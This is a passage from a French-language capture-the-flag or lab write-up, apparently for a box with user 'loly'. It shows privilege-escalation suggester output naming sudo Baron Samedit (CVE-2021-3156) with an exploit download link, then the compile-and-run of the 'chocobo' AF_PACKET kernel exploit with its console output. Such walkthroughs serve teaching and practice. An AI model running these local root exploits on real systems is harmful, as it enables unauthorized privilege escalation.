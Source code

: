 ```
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

`Sudo Baron Samedit 2` n'avait pas l'air de fonctionner ici, mais l'exploit kernel `chocobo` fonctionne :

```console
loly@ubuntu:/tmp$ gcc -o chocobo chocobo.c -lpthread
loly@ubuntu:/tmp$ ./chocobo 
linux AF_PACKET race condition exploit by rebel
kernel version: 4.4.0-31-generic #50
proc_dostring = 0xffffffff81087ea0
modprobe_path = 0xffffffff81e48f80
register_sysctl_table = 0xffffffff81286e90
set_memory_rw = 0xffffffff8106f370
exploit starting
making vsyscall page writable..

new exploit attempt starting, jumping to 0xffffffff8106f370, arg=0xffffffffff600000
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 535869, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 65584
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so don't do that.
closing socket and verifying................................
vsyscall page altered!


stage 1 completed
registering new sysctl..

new exploit attempt starting, jumping to 0xffffffff81286e90, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 71951, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 0
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286e90, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 72497, last val = 0)
current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 48
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286e90, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
```